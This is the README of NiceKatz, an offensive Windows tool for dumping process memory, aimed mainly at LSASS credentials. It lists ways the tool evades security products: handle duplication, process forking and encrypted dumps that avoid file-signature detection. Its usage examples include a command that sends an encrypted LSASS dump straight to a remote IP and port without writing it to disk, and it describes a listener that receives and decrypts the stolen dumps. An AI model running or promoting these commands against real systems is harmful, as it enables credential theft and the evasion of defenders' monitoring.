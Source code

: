 # NiceKatz - a nice process dumping tool

![🍉](https://cdn.emojidex.com/emoji/seal/watermelon.png "watermelon")

NiceKatz is a process dumping tool which was developed as part of my software development and windows internals studies.
This tool lets you dump the memory of windows process's in couple of different ways and avoids calling suspicious APIs. 

It is well known already that most of the modern security solutions will block any API calls such as OpenProcess that targets sensetive processes(eg. lsass.exe), other then that, direct memory reading of such processes will also flag modern security solutions. If this is not enough, there are also some vendors that detects the signature of the dump file itself, so even if the handle to the process is retrieved, and the memory reading has completed, all of the work will be thrown away once the dump file touches the disk.. 

NiceKatz evades all of the problems mentioned above, and provides more then one way to dump the processe's memory. 

## Features
- Uses handle duplication to avoid direct OpenProcess to the target
- Supports process forking to avoid direct memory reading of the target process
- Can dump ANY process, not only LSASS
- Supports two different dump modes - MiniDumpWriteDump and SilentProcessExit
- Implements MiniDumpWriteDump callback to capture MiniDump information in memory
- Supports dump encryption to avoid dmp file signatures from being detected
- Supports sending dump file remotely without touching the disk
- Cleanup is performed for any OS configuration change
- Provides a controller that can be used as a listener and a decryptor of dump files generated by NiceKatz

## Build instructions
A full visual studio solution is provided, just load it to visual studio and build.
The right build to use is "Release x64". Do not build as x86, it is not supported by this tool.
The build will result in two files - NiceKatz.exe and NiceKatzController.exe

## NiceKatz
This is is the program that performs the actual process dumping, you can use it to dump any process, in two different modes. 
You can use  this program to dump processes, encrypt the dumped process, send it remotlely or write it to disk.  
#### NiceKatz usage:
```
NiceKatz v0.1
        Alon Leviev(@0xDeku)

Mandatory args:
-m Process dump method
        1 = Dump target process by using MiniDumpWriteDump
        2 = Dump target process by using SilentProcessExit(Does not support -r and -e ATM)

Other args:
-e Encrypt output file
-r Send dmp remotly without touching the disk
        <IP_ADDR> The ip address to send the dump to
        <PORT> The port of which to connect to
-p Target process id to dump(Default: LSASS pid)

Examples:
- Dump lsass by using MiniDumpWriteDump and ecrypt the output file:
        NiceKatz.exe -m 1 -e
- Dump PID 1234 by using SilentProcessExit method:
        NiceKatz.exe -m 2 -p 1234
- Dump PID 5678 by using MiniDumpWriteDump, encrypt the dump in memory and send remotly:
        NiceKatz.exe -m 1 -p 5678 -r 10.10.10.10:8888 -e
```

## NiceKatzController
This is the program which you can use to listen for connections arriving from NiceKatz.exe. 
The controller has more capabilities such as: decrypting the process dump stream recived from the socket as well as decrypting a given file genereated by NiceKatz.exe

#### NiceKatzController usage:
```
NiceKatzController
        Alon Leviev(@0xDeku)

Arguments:
-l Listen for connections from remote target machine
-d Decrypt the dump file when recived from the target
-df Decrypt an encrypted dump file by path(Not supported with other arguments)

Examples:
- Listen for connections from remote target and decrypt the recived dump file:
        NiceKatzController.exe -l -d
- Decrypt an encrypted dump file by its path:
        NiceKatzController.exe -df C:\Temp\dump.dmp
```

## Demo


https://user-images.githubusercontent.com/93016131/178570364-701c0649-b178-414e-af96-fc871899b1ec.mp4



## Future development
There is a list of TODOs and I will continue developing this tool in the future.
If you encounter a bug, or want to ask for aditional features, just open an issue on this git repo. 

## Credits 
Rasta mouse
MalsecLogon
NanoDump
Deep Inistinct

